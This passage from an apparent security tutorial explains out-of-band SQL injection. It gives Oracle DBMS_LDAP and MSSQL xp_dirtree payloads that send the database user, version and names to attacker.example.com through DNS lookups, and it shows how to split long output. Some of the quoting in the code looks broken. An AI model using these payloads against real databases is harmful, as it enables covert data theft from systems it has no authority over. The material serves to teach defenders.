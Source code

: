The culprit, in this case, is the `COPY` function in PostgreSQL, which is intended to move data between a file and a table. Here, it allows the attacker to include a remote file as the copy source.

### Oracle

The following SQL query achieves the same result as above if the application is using an Oracle database:

```html
SELECT  DBMS_LDAP. INIT( (SELECT  version  FROM  v$instance)||'.'|| (SELECT user FROM  dual)||'.'|| (SELECT  name  FROM  v$database)||'.'|| example. com'  ,80) FROM  dual;
```

### MSSQL

In MSSQL, the `xp_dirtree` function can be used to trigger a DNS lookup. If an attacker controls the authoritative name server for a domain, they can see the requests within the server logs. Here's an example payload:

```html
EXEC master..xp_dirtree '\\\\attacker.example.com\\foo' -- This would cause a DNS lookup to the attacker.example.com domain.
```

To prevent false positives, the hostname can be split, such as:

```html
declare @q varchar(1024);
set @q = 'master..xp_dirtree '\\\\' + user_name() + '.attacker.example.com\\foo';
exec(@q)
```

The above payload takes the current username, appends it to the attacker-controlled hostname as a subdomain, and sends it to the attacker-controlled server from which it can be extracted from the logs.

If the output is too long, it can be split using `substring`, like this:

```html
declare @q varchar(1024);
set @q='master..xp_dirtree '\\\\'+SUBSTRING(user_name(),1,60)+'.attacker.example.com\\foo';
exec(@q)

declare @q varchar(1024);
set @q='master..xp_dirtree '\\\\'+SUBSTRING(user_name(),61,60)+'.attacker.example.com\\foo';
exec(@q)
```

### HTTP/SMB

In addition to DNS, protocols such as HTTP and SMB can also be used for **out-of-band exploitation**. The idea is the same: instead of inferring content in the database through something like Boolean logic, you can request the target system transmit the information over protocols such as HTTP, SMB, or DNS.

Out-of-band SQL injections provide a powerful tool for attackers to exfiltrate data from a database. It is crucial for developers to be aware of this vulnerability and take necessary precautions to prevent such attacks.
